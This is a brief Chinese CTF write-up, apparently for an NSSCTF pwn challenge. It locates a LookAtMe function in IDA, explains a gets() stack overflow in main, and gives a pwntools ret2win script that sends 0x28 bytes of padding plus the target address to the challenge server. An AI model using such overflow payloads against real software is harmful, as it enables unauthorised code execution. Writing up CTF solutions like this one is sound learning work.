 1. ida打开，发现一个函数LookAtMe,看一眼  
![alt text](image.png)  
很好，栈溢出调用一下  

2. ![alt text](image-1.png)  
找到地址000000000040072c  

3. 看main函数，调用init和NSS，在main中return gets(v4),可以实现栈溢出  


4. 分析main函数  
![alt text](image-2.png)  

使用%rdi传参给gets()函数，main函数首先push %rbp，占8字节，然后申请0x20个字节，作为数组，所以一共有0x28个字节，然后是返回地址，

5. 构造payload
```py
from pwn import*

re=remote("node4.anna.nssctf.cn","28082")
paload=b'b'*(0x20+8)+p64(0x40072c)  
re.sendline(paload)  
re.interactive()
```  
